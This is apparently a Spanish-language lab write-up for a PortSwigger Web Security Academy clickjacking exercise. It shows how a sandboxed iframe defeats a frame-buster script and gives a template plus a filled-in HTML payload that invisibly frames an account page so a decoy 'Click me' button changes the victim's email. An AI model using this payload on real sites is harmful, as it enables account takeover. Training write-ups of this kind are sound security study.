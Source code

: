 # (x)Lab: Clickjacking with a frame buster script

```jsx
This lab is protected by a frame buster which prevents the website from being framed. Can you get around the frame buster and conduct a clickjacking attack that changes the users email address?

To solve the lab, craft some HTML that frames the account page and fools the user into changing their email address by clicking on "Click me". The lab is solved when the email address is changed.

You can log in to your own account using the following credentials: wiener:peter
```

Una solución eficaz para los atacantes contra los eliminadores de marcos es utilizar el iframe con el atributo `sandbox` de HTML5. Cuando se configura con los valores `allow-forms`o `allow-scripts`  y `allow-top-navigation` no se encuentra definido, el script del eliminador de marcos puede neutralizarse, ya que el iframe no puede comprobar si es o no la ventana superior:

```jsx
<iframe id="victim_website" src="https://victim-website.com" sandbox="allow-forms"></iframe>

```

En base a estos conceptos, vamos a usar esta plantilla

```jsx
<style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe sandbox="allow-forms"
src="YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>

```

Adaptemoslo al ejericio anterior

```jsx
<style>
    iframe {
        position:relative;
				width: 700px;
        height: 700px;
        opacity: 0.00001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:450px;
        left:75px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe sandbox="allow-forms" src="https://0ac70058030a1a3182d389af00c000bf.web-security-academy.net/my-account?email=delhacker@attacker-website.com"></iframe>
```

![image.png]((x)Lab%20Clickjacking%20with%20a%20frame%20buster%20script%20c8287080b66444f5b86132a758815594/image.png)